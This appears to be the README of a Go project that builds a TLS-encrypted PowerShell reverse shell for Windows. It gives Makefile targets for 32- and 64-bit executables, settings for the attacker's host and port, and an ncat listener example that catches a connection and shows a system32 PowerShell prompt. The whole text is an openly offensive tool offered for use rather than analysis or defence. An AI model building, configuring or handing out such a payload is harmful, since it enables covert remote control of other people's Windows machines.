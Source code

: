 # Revsh

Simple TCP reverse shell for powershell written in [Go](https://golang.org).

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8080
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.125.
Ncat: Connection from 10.10.10.125:49954.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> 

```


